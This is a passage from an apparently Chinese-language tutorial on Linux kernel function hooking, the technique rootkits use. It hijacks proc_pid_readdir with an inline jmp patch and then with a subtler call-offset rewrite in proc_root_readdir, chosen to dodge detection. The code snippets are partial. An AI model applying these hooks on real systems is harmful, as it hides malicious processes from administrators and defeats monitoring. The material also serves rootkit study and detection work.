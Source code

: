 首先就是获取原函数地址，这个在不讲其余办法的情况下依然优先选择`kallsyms`
```
origin_proc_pid_readdir = kallsyms_lookup_name("proc_pid_readdir");
```
为了后面卸载模块恢复，先备份将要被覆盖的前五个字节
```
unsigned char origin_readdir[5]={0};
memcpy(origin_readdir,origin_proc_pid_readdir,5);
```
构造跳转指令
```
unsigned char jmpop[5]={0xe9,0,0,0,0};
    ......
hook_offset = (unsigned long)new_proc_pid_readdir - (unsigned long)origin_proc_pid_readdir-5;
(*(unsigned long*)(jmpop+1))=hook_offset;
```
解除内存写保护后开始劫持
```
set_addr_rw();
memcpy(origin_proc_pid_readdir,jmpop,5);
set_addr_ro();
```
### Offset hook
> 基础技术都是通过覆盖原指令来进行劫持，但是这样容易通过查找`jmp`，`push ret`等指令查找出来，因此可以在不增加新的指令的情况下，直接修改offset来实现隐藏的目的。

反汇编看一下代码可以看出`proc_pid_readdir`在`proc_root_readdir`中的调用形式。
```
gef➤ disassemble proc_root_readdir
    ......
    0xc10e26b5 <+50>: call 0xc10e4c30 <proc_pid_readdir>
```
新的劫持方式的理念在于内核函数的功能逻辑一般不可能完全写在一个函数中，必然存在上下层的函数调用，比如`proc_root_readdir`->`proc_pid_readdir`，那么通过修改下层函数在上层函数中的`offset`就能使得上层函数在调用下层函数时跳到我们的新函数中。
需要的东西:
* 上层函数地址
* 劫持函数地址
* 新函数地址

```
unsigned char *fun = (char *)kallsyms_lookup_name("proc_root_readdir");  //上层函数地址
origin_proc_pid_readdir = kallsyms_lookup_name("proc_pid_readdir");  //劫持函数地址
```
`call rel32`指令占5个字节，第一个字节是`0xe8`，然后我这`fun`是个指针是4个字节长度，那么在上层函数中找到`call`指令的地址的方式就是一个循环遍历，循环次数自定义。
> 与运算是为了排除字节填充的干扰，只判断低位的一个字节。

```
unsigned int i=0;
while(1){
  if(i>512){return 0;}
  if((fun[0]&0x000000ff)==0xe8){
        //TODO
  }
  fun++;
  i++;
 }
```
当搜寻到`call`指令后就要看一下调用的`offset`算出来的地址是不是要劫持的函数地址。
```
原地址=当前地址+offset+5
```
对应的代码就是
```
call_func_addr = (int)fun+origin_offset+5;
if(call_func_addr == origin){printk("[addr]origin=%lx\n",call_func_addr);break;}
```
这时候就能确定当前地址就是我们需要的，只需要修改`call`后面的`offset`就行，与`jmp`不同的是`call`需要填充后面四个字节
```
 hook_offset = (unsigned long)new - (unsigned long)fun-5;
```